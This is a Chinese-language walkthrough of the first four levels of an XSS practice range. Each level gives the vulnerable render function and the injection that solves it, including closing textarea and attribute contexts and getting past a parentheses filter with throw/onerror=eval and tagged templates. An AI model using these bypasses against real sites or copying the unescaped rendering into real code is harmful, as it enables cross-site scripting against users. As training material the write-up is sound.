 # https://xss.haozi.me/#/0x00
一个很有意思的靶场
## 0x00 #反射型XSS
servercode
```html
function render (input) {
  return '<div>' + input + '</div>'
}
```
input
```HTML
<script>alert(1)</script>
```

## 0x01
servercode
```html
function render (input) {
  return '<textarea>' + input + '</textarea>'
}
```
input
```html
</textarea><script>alert(1)</script><div>wumonster</div>
```

插入 `</textarea>`进行闭合思路和sql闭合类似

## 0x02
servercode
```html
function render (input) {
  return '<input type="name" value="' + input + '">'
}
```
input
```html
"><script>alert(1);</script>
```

## 0x03
过滤`()`，throw绕过
servercode
```html
function render (input) {
  const stripBracketsRe = /[()]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```
input
```html
<svg onload="window.onerror=eval;throw'=alert\x281\x29';">
<script>alert`1`;</script>
```
- onload -> onload 事件会在页面或图像加载完成后立即发生;onload 通常用于 `<body>` 元素，在页面完全载入后(包括图片、css文件等等。)执行脚本代码。
-  onerror ->onerror 事件在加载外部文件（文档或图像）发生错误时触发
